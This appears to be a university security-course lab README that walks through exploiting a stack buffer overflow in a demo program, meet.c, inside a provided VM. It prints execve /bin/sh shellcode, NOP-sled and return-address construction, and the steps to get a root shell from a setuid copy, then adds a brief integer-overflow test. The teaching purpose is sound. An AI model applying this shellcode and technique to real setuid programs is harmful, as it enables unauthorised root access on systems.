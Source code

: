 # Prerequisites
You need to run these in the VM we provide for you.

# Resources
This meet.c exploit demo is taken form Chapter 11 of the Ethicial Hacker's Handbook (http://www.pdf-archive.com/2011/02/23/gray-hat-hacking/gray-hat-hacking.pdf).
See this document if you get stuck and need more information.

# Test and crash meet

### Build our source
On the VM, after you've copied these source files, compile the source code.
```
gcc -o meet meet.c
gcc -o get_sp get_sp.c
```

### Test and break meet
```
./meet Cey Smooth
perl -e 'print "A"x200'
echo $(perl -e 'print "A"x200')
./meet Cey $(perl -e 'print "A"x200')
./meet Cey $(perl -e 'print "A"x500')
```

# Control-flow hijack for meet.c
### Setup setuid super-meet
Make a copy of meet and mark setuid  (remember root password is root).
```
su root
cp meet super-meet
chown root:root super-meet
chmod u+s super-meet
exit
```

### Generate shellcode
Be careful copy-pasting this command. Copy-pasting might introduce unintended line break characters.
```
perl -e 'print 
"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh";' > shellcode
```
Check the length: shellcode should be 53. If not, something is wrong. Maybe you accidentally added an unintended line break or some other character.
```
wc -c shellcode
```

### Get the stack pointer
```
./get_sp
```

Check it twice! It shouldn't change.
```
./get_sp
```

Compute an approximate landing spot: ESP - 0x300

(In the lines below, substitute your own ESP values.)

Stack pointer (ESP): 0xbffff672 - 0x300 = 0xbffff372

Convert to little-endian: 0x72 0xf3 0xff 0xbf
Use perl to print these 38 times
```
perl -e 'print"\x72\xf3\xff\xbf"x38' > sp-repeat
```

### Running the exploit
Run the exploit. Keep changing the size of the nop sled until you align the exploit properly on the stack. Try 200, 201, 202, ....
```
./meet cey $(perl -e 'print "\x90"x200'; cat shellcode sp-repeat)
```

Check super-meet, should be marked setuid
```
ls -l
```

Check your id, should be user(1000)
```
id
```

Run the exploit against super-meet. If you get a shell, check your uid using `id`.
```
./super-meet cey "$(perl -e 'print "\x90"x200'; cat shellcode sp-repeat)"
```

# Test integer overflow vulnerability
```
gcc -o width width.c
./width 5 "COM402"
./width 85 "COM402"
./width 65536 "COM402"
```

# Issues
If you find any problems with this demo: send me an email, file an issue, or better yet, just send me a pull request.

